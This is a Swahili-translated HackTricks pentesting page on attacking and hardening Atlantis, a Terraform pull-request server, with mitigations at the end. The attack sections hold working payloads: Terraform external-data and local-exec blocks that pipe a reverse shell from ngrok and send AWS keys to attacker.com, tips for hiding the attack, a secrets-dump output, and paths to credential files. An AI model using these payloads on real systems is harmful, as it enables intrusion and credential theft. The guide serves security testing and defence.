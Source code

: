 # Usalama wa Atlantis

<details>

{% hint style="success" %}
Jifunze na zoezi la AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoezi la GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Taarifa Msingi

Atlantis kimsingi inakusaidia kutekeleza terraform kutoka kwa Maombi ya Kuvuta kutoka kwa seva yako ya git.

![](<../.gitbook/assets/image (161).png>)

## Maabara ya Kienyeji

1. Nenda kwenye **ukurasa wa kutolewa kwa atlantis** kwenye [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases) na **pakua** ile inayokufaa.
2. Unda **ishara ya kibinafsi** (yenye ufikivu wa repo) ya mtumiaji wako wa **github**
3. Tekeleza `./atlantis testdrive` na itaunda **repo ya onyesho** unayoweza kutumia kuzungumza na atlantis
1. Unaweza kufikia ukurasa wa wavuti kwenye 127.0.0.1:4141

## Upatikanaji wa Atlantis

### Ishara za Seva ya Git

**Atlantis** inasaidia mwenyeji wa git kadhaa kama **Github**, **Gitlab**, **Bitbucket** na **Azure DevOps**.\
Hata hivyo, ili kupata ufikivu wa repos kwenye majukwaa hayo na kutekeleza vitendo, inahitaji kuwa na **ufikivu wa kipekee uliopewa** (angalau ruhusa za kuandika).\
[**Nyaraka**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional) zinahimiza kuunda mtumiaji kwenye majukwaa haya kwa kusudi la Atlantis, lakini baadhi ya watu wanaweza kutumia akaunti za kibinafsi.

{% hint style="warning" %}
Kwa mtazamo wa mshambuliaji, akaunti ya **Atlantis** itakuwa moja ya vitu vya kuvutia sana vya **kudukua**.
{% endhint %}

### Webhooks

Atlantis hutumia hiari [**Siri za Webhook**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret) kuthibitisha kuwa **webhooks** inayopokea kutoka kwa mwenyeji wako wa Git ni **halali**.

Njia moja ya kuthibitisha hii ni **kuruhusu maombi yaje tu kutoka kwa IPs** ya mwenyeji wako wa Git lakini njia rahisi ni kutumia Siri ya Webhook.

Tambua kwamba isipokuwa unatumia seva ya github au bitbucket ya kibinafsi, utahitaji kufunua miisho ya webhook kwa Mtandao.

{% hint style="warning" %}
Atlantis itakuwa ina **kufunua webhooks** ili seva ya git iweze kutuma habari kwake. Kwa mtazamo wa mshambuliaji itakuwa ya kuvutia kujua **kama unaweza kutuma ujumbe kwake**.
{% endhint %}

### Ishara za Mtoaji <a href="#provider-credentials" id="provider-credentials"></a>

[Kutoka kwa nyaraka:](https://www.runatlantis.io/docs/provider-credentials.html)

Atlantis inatekeleza Terraform kwa kutekeleza tu amri za `terraform plan` na `apply` kwenye seva **Atlantis inayoendeshwa**. Kama vile unapotekeleza Terraform kwa kibinafsi, Atlantis inahitaji ishara kwa mtoaji wako maalum.

Ni juu yako jinsi unavyo [utoa ishara](https://www.runatlantis.io/docs/provider-credentials.html#aws-specific-info) kwa mtoaji wako maalum kwa Atlantis:

* Mchoro wa Atlantis [Helm](https://www.runatlantis.io/docs/deployment.html#kubernetes-helm-chart) na Moduli ya [AWS Fargate](https://www.runatlantis.io/docs/deployment.html#aws-fargate) ina njia zao za kutoa ishara kwa mtoaji. Soma nyaraka zao.
* Ikiwa unatekeleza Atlantis kwenye wingu basi mawingu mengi yana njia za kutoa ufikivu wa API ya wingu kwa programu zinazoendeshwa kwenye mawingu hayo, mfano:
* [Vyeo vya AWS EC2](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) (Tafuta "Vyeo vya EC2")
* [Akaunti za Huduma za Kigezo cha GCE Instance](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* Watumiaji wengi huanzisha mazingira ya mazingira, mfano. `AWS_ACCESS_KEY`, ambapo Atlantis inaendeshwa.
* Wengine hufanya faili za usanidi muhimu, mfano. `~/.aws/credentials`, ambapo Atlantis inaendeshwa.
* Tumia [Mtoaji wa Hazina ya HashiCorp](https://registry.terraform.io/providers/hashicorp/vault/latest/docs) kupata ishara za mtoaji.

{% hint style="warning" %}
**Kontena** ambapo **Atlantis** inaendeshwa itakuwa na uwezekano mkubwa wa **kuwa na ishara za kipekee** kwa watoaji (AWS, GCP, Github...) ambao Atlantis inasimamia kupitia Terraform.
{% endhint %}

### Ukurasa wa Wavuti

Kwa chaguo-msingi Atlantis itaendesha **ukurasa wa wavuti kwenye bandari 4141 kwenye localhost**. Ukurasa huu tu unakuwezesha kuwezesha/kulemaza atlantis apply na kuangalia hali ya mpango wa repos na kuzifungua (hauruhusu kuhariri vitu, hivyo sio muhimu sana).

Labda hautaupata umefunuliwa kwa mtandao, lakini inaonekana kwa chaguo-msingi **hakuna ishara zinahitajika** kufikia (na kama zinahitajika `atlantis`:`atlantis` ni **zile za chaguo-msingi**).

## Usanidi wa Seva

Usanidi wa `seva ya atlantis` unaweza kutajwa kupitia bendera za mstari wa amri, mazingira ya mazingira, faili ya usanidi au mchanganyiko wa vitatu hivyo.

* Unaweza kupata [**hapa orodha ya bendera**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration) inayoungwa mkono na seva ya Atlantis
* Unaweza kupata [**hapa jinsi ya kubadilisha chaguo la usanidi kuwa mazingira ya mazingira**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)

Thamani zinachaguliwa kwa **mpangilio huu**:

1. Bendera
2. Mazingira ya Mazingira
3. Faili ya Usanidi

{% hint style="warning" %}
Tambua kwamba katika usanidi unaweza kupata thamani za kuvutia kama vile **ishara na nywila**.
{% endhint %}

### Usanidi wa Repos

Baadhi ya usanidi unaathiri **jinsi repos zinavyosimamiwa**. Hata hivyo, inawezekana kwamba **kila repo inahitaji mipangilio tofauti**, kwa hivyo kuna njia za kufafanua kila repo. Hii ni mpangilio wa kipaumbele:

1. Repo [**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config) faili. Faili hii inaweza kutumika kufafanua jinsi atlantis inavyopaswa kutibu repo. Hata hivyo, kwa chaguo-msingi baadhi ya funguo haziwezi kufafanuliwa hapa bila bendera zinazoruhusu hilo.
1. Labda inahitajika kuruhusiwa na bendera kama `allowed_overrides` au `allow_custom_workflows`
2. [**Usanidi wa Upande wa Seva**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config): Unaweza kuipitisha kwa bendera `--repo-config` na ni yaml inayopanga mipangilio mpya kwa kila repo (regexes inasaidiwa)
3. Thamani za **Chaguo-msingi**
#### Kinga za PR

Atlantis inaruhusu kuonyesha ikiwa unataka **PR** iwe **`imeidhinishwa`** na mtu mwingine (hata kama hiyo haijawekwa katika kinga ya tawi) na/au iwe **`inayoweza kufungwa`** (kinga ya tawi imepita) **kabla ya kukimbia apply**. Kutoka mtazamo wa usalama, kuweka chaguo zote ni muhimu.

Katika kesi `allowed_overrides` ni Kweli, mipangilio hii inaweza **kubadilishwa kwenye kila mradi kupitia faili ya `/atlantis.yml`**.

#### Scripts

Mipangilio ya repo inaweza **kuainisha scripts** za kukimbia [**kabla**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage) (_pre workflow hooks_) na [**baada**](https://www.runatlantis.io/docs/post-workflow-hooks.html) (_post workflow hooks_) ya **workflow kutekelezwa**.

Hakuna chaguo la kuruhusu **kuainisha** scripts hizi katika **faili ya repo `/atlantis.yml`**.

#### Workflow

Katika mipangilio ya repo (mipangilio ya upande wa seva) unaweza [**kuainisha mfumo wa kazi uliozoeleka mpya**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow), au [**kuunda mifumo ya kazi ya desturi mpya**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**.** Unaweza pia **kuainisha** ni **repo zipi** zinaweza **kufikia** zile **mipya** zilizozalishwa.\
Kisha, unaweza kuruhusu faili ya **atlantis.yaml** ya kila repo **kuainisha mfumo wa kazi utakaotumika.**

{% hint style="danger" %}
Ikiwa bendera ya [**mipangilio ya upande wa seva**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allow_custom_workflows` imewekwa kuwa **Kweli**, mifumo ya kazi inaweza **kuainishwa** katika faili ya **`atlantis.yaml`** ya kila repo. Pia inaweza kuwa muhimu kwamba **`allowed_overrides`** inaainisha pia **`workflow`** kwa **kubadilisha mfumo wa kazi** utakaotumika.\
Hii kimsingi itatoa **RCE kwenye seva ya Atlantis kwa mtumiaji yeyote anayeweza kufikia repo hiyo**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Ukaguzi wa Sera ya Conftest

Atlantis inasaidia kukimbia [**conftest**](https://www.conftest.dev/) **sera** upande wa **server** dhidi ya matokeo ya mpango. Matumizi ya kawaida ya hatua hii ni pamoja na:

* Kukataa matumizi ya orodha ya moduli
* Kudai sifa za rasilimali wakati wa uundaji
* Kukamata kufutwa kwa rasilimali kwa bahati mbaya
* Kuzuia hatari za usalama (yaani kufunua bandari salama kwa umma)

Unaweza kuangalia jinsi ya kuiwezesha katika [**nyaraka**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works).

## Amri za Atlantis

[Katika nyaraka](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) unaweza kupata chaguo unazoweza kutumia kukimbia Atlantis:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## Mashambulizi

{% hint style="warning" %}
Ikiwa wakati wa uvamizi unakutana na **kosa** hili: `Kosa: Kosa la kupata kufunga hali`

Unaweza kulitatua kwa kukimbia:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Atlantis mpango wa RCE - Kubadilisha Mipangilio kwenye PR mpya

Ikiwa una ufikiaji wa kuandika kwenye hazina, utaweza kuunda tawi jipya ndani yake na kuzalisha PR. Ikiwa unaweza **kutekeleza `atlantis plan`** (au labda inatekelezwa kiotomatiki) **utaweza kufanya RCE ndani ya seva ya Atlantis**.

Unaweza kufanya hivi kwa kufanya [**Atlantis iweke chanzo cha data cha nje**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Weka mzigo kama huu katika faili ya `main.tf`:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Shambulizi la Kujificha

Unaweza kutekeleza shambulizi hili hata kwa njia ya **kujificha zaidi**, kwa kufuata mapendekezo haya:

* Badala ya kuongeza rev shell moja kwa moja kwenye faili ya terraform, unaweza **kupakia rasilimali ya nje** ambayo ina rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Unaweza kupata msimbo wa rev shell katika [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Katika rasilimali ya nje, tumia kipengele cha **ref** kuficha **msimbo wa rev shell wa terraform katika tawi** ndani ya repo, kitu kama: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **Badala** ya kuunda **PR kwa masta** kuzindua Atlantis, **unda matawi 2** (jaribio1 na jaribio2) na unda **PR kutoka moja kwenda nyingine**. Ukikamilisha shambulio, **ondoa tu PR na matawi**.

### Atlantis plan Secrets Dump

Unaweza **kudondosha siri zinazotumiwa na terraform** kwa kukimbia `atlantis plan` (`terraform plan`) kwa kuweka kitu kama hiki katika faili ya terraform:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis inatumia RCE - Kubadilisha Mipangilio kwenye PR mpya

Ikiwa una ufikiaji wa kuandika kwenye hazina utaweza kuunda tawi jipya ndani yake na kuzalisha PR. Ikiwa unaweza **kutekeleza `atlantis apply` utaweza kufanya RCE ndani ya seva ya Atlantis**.

Hata hivyo, kawaida utahitaji kukiuka baadhi ya kinga:

- **Inayoweza Kufungwa**: Ikiwa kinga hii imewekwa kwenye Atlantis, unaweza tu kukimbia **`atlantis apply` ikiwa PR inaweza kufungwa** (ambayo inamaanisha kuwa kinga ya tawi inahitaji kukiukwa).
- Angalia [**njia za kukiuka kinga za tawi**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
- **Imeidhinishwa**: Ikiwa kinga hii imewekwa kwenye Atlantis, **mtumiaji mwingine lazima apitishe PR** kabla ya wewe kuweza kukimbia `atlantis apply`
- Kwa chaguo-msingi unaweza kutumia [**kitufe cha Gitbot kukiuka kinga hii**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

Kukimbia **`terraform apply` kwenye faili ya Terraform yenye nia mbaya na** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Unahitaji tu kuhakikisha kuwa mzigo fulani kama huu unamalizika kwenye faili ya `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Fuata **mapendekezo kutoka kwa mbinu iliyopita** kutekeleza shambulio hili kwa njia ya **kujificha zaidi**.

### Uingizaji wa Paramu za Terraform

Unapokuwa unatekeleza `atlantis plan` au `atlantis apply` terraform inatekelezwa chini ya pazia, unaweza kupitisha amri kwa terraform kutoka atlantis kwa kutoa maoni kama:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
Kitu unachoweza kupitisha ni mazingira ya env ambayo yanaweza kusaidia kuzidi baadhi ya ulinzi. Angalia mazingira ya env ya terraform katika [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

### Mchakato wa Kibinafsi

Kutekeleza **amri za ujenzi za kawaida zenye nia mbaya** zilizotajwa katika faili ya `atlantis.yaml`. Atlantis hutumia faili ya `atlantis.yaml` kutoka tawi la ombi la kuvuta, **sio** ya `master`.\
Uwezekano huu ulitajwa katika sehemu iliyopita:

{% hint style="danger" %}
Ikiwa bendera ya [**upande wa seva**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allow_custom_workflows` imewekwa kuwa **Kweli**, mchakato wa kazi unaweza kuwa **umeainishwa** katika faili ya **`atlantis.yaml`** ya kila repo. Pia inaweza kuwa muhimu kwamba **`allowed_overrides`** inaainisha pia **`workflow`** kwa **kuzidi mchakato wa kazi** utakaotumiwa.

Hii kimsingi itatoa **RCE kwenye seva ya Atlantis kwa mtumiaji yeyote anayeweza kufikia repo hiyo**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### Kupita mipango/maombi ya ulinzi

Ikiwa bendera ya [**upande wa seva**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allowed_overrides` _ime_ sanidiwa na `apply_requirements`, ni rahisi kwa repo **kurekebisha mipango/maombi ya ulinzi ili kuzipita**.
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### Utekaji wa PR

Ikiwa mtu anatuma **maoni ya `atlantis plan/apply` kwenye maombi yako halali ya pull,** itasababisha terraform kufanya kazi wakati hauitaki.

Zaidi ya hayo, ikiwa huna kuweka katika **ulinzi wa tawi** kuomba **kupitia tena** kila PR wakati **commit mpya inapigwa** kwenye hiyo, mtu anaweza **kuandika mizunguko ya uovu** (angalia mifano iliyopita) kwenye mizunguko ya terraform, kukimbia `atlantis plan/apply` na kupata RCE.

Hii ni **mazingira** katika ulinzi wa matawi ya Github:

![](<../.gitbook/assets/image (216).png>)

### Siri ya Webhook

Ikiwa unaweza **kuiba siri ya webhook** iliyotumiwa au ikiwa **hakuna siri ya webhook** inayotumiwa, unaweza **kuita webhook ya Atlantis** na **kuita amri za atlatis** moja kwa moja.

### Bitbucket

Bitbucket Cloud **haishikilii siri za webhook**. Hii inaweza kuruhusu wachomaji kufanya **ombi za uwongo kutoka Bitbucket**. Hakikisha unaruhusu tu anwani za IP za Bitbucket.

* Hii inamaanisha kwamba **mchomaji** anaweza kufanya **ombi bandia kwa Atlantis** ambazo zinaonekana kama zinatoka kwa Bitbucket.
* Ikiwa unaweka `--repo-allowlist` basi wanaweza tu kufanya ombi bandia yanayohusiana na repos hizo hivyo uharibifu mkubwa wanaweza kufanya ni kupanga/kutekeleza kwenye repos zako.
* Ili kuzuia hili, ruhusu [anwani za IP za Bitbucket](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html) (angalia Anwani za IP za IPv4 za kutoka).

## Baada ya Utekaji

Ikiwa umefanikiwa kupata ufikiaji wa seva au angalau umepata LFI kuna vitu vya kuvutia unapaswa kujaribu kusoma:

* `/home/atlantis/.git-credentials` Ina vibali vya ufikiaji wa vcs
* `/atlantis-data/atlantis.db` Ina vibali vya ufikiaji wa vcs pamoja na maelezo zaidi
* `/atlantis-data/repos/<org_name>`_`/`_`<repo_name>/<pr_num>/<workspace>/<path_to_dir>/.terraform/terraform.tfstate` Faili ya hali ya terraform
* Mfano: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` Vigezo vya mazingira
* `/proc/[2-20]/cmdline` Mstari wa amri ya `atlantis server` (inaweza kuwa na data nyeti)

## Kupunguza Hatari

### Usitumie kwenye Repos za Umma <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

Kwa sababu yeyote anaweza kutoa maoni kwenye maombi ya pull ya umma, hata na mikakati ya kupunguza hatari inapatikana, bado ni hatari kufanya Atlantis kwenye repos za umma bila usanidi sahihi wa mipangilio ya usalama.

### Usitumie `--allow-fork-prs` <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

Ikiwa unatumia kwenye repo ya umma (ambayo sio ilipendekezwa, angalia hapo juu) usiweke `--allow-fork-prs` (inayopendelewa kuwa ya uwongo) kwa sababu yeyote anaweza kufungua maombi ya pull kutoka kwa fork yao kwenye repo yako.

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Atlantis inahitaji uweke orodha ya ruhusa ya repositori itakayokubali webhooks kutoka kupitia bendera ya `--repo-allowlist`. Kwa mfano:

* Repositori maalum: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Shirika lako zima: `--repo-allowlist=github.com/runatlantis/*`
* Kila repositori kwenye usanidi wako wa GitHub Enterprise: `--repo-allowlist=github.yourcompany.com/*`
* Repositori zote: `--repo-allowlist=*`. Inafaa wakati uko kwenye mtandao uliolindwa lakini hatari bila kuweka siri ya webhook.

Bendera hii inahakikisha usanidi wako wa Atlantis haikutumiwa na repositori usizodhibiti. Angalia `atlantis server --help` kwa maelezo zaidi.

### Lina Terraform Planning <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

Ikiwa wachomaji wanawasilisha maombi ya pull na nambari mbaya ya Terraform iko kwenye mfano wako wa tishio basi lazima uwe na ufahamu kwamba idhini za `terraform apply` hazitoshi. Inawezekana kutekeleza nambari mbaya katika `terraform plan` kwa kutumia chanzo cha data cha [`external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) au kwa kufafanua mtoa huduma mbaya. Nambari hii inaweza kisha kuchukua vibali vyako.

Ili kuzuia hili, unaweza:

1. Ingiza watoa huduma kwenye picha ya Atlantis au mwenyeji na kataa kutoka nje kwenye uzalishaji.
2. Tekeleza itifaki ya usajili wa watoa huduma ndani na kataa kutoka nje ya umma, hivyo unadhibiti ni nani anayeandika upatikanaji wa usajili.
3. Badilisha [usanidi wa repo upande wa seva](https://www.runatlantis.io/docs/server-side-repo-config.html) hatua ya `plan` kuthibitisha dhidi ya matumizi ya watoa huduma au vyanzo vya data vilivyozuiliwa au PR kutoka kwa watumiaji wasioruhusiwa. Unaweza pia kuongeza uthibitisho wa ziada wakati huu, k.m. kuhitaji "kuidhinisha" kwenye PR kabla ya kuruhusu `plan` kuendelea. Conftest inaweza kuwa na manufaa hapa.

### Siri za Webhook <a href="#webhook-secrets" id="webhook-secrets"></a>

Atlantis inapaswa kuendeshwa na siri za Webhook zilizowekwa kupitia mazingira ya `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET`. Hata na bendera ya `--repo-allowlist` iliyowekwa, bila siri ya webhook, wachomaji wanaweza kufanya maombi kwa Atlantis wakijifanya kuwa ni repo iliyoruhusiwa. Siri za webhook zinahakikisha kuwa maombi ya webhook yanatoka kweli kwa mtoa huduma wako wa VCS (GitHub au GitLab).

Ikiwa unatumia Azure DevOps, badala ya siri za webhook ongeza jina la msingi na nywila.

### Uthibitishaji wa Msingi wa Azure DevOps <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

Azure DevOps inasaidia kutuma kichwa cha uthibitishaji wa msingi katika matukio yote ya webhook. Hii inahitaji kutumia URL ya HTTPS kwa eneo lako la webhook.

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

Ikiwa unatumia siri za webhook lakini trafiki yako ni juu ya HTTP basi siri za webhook zinaweza kuibiwa. Wezesha SSL/HTTPS kwa kutumia bendera za `--ssl-cert-file` na `--ssl-key-file`.

### Wezesha Uthibitishaji kwenye Seva ya Wavuti ya Atlantis <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

Inapendekezwa sana kuwezesha uthibitishaji kwenye huduma ya wavuti. Wezesha BasicAuth kwa kutumia `--web-basic-auth=true` na weka jina la mtumiaji na nywila kwa kutumia bendera za `--web-username=yourUsername` na `--web-password=yourPassword`.

Unaweza pia kupitisha haya kama mazingira ya mazingira `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=yourUsername` na `ATLANTIS_WEB_PASSWORD=yourPassword`.

## Marejeo

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
Jifunze & jaribu Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & jaribu Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>unga mkono HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
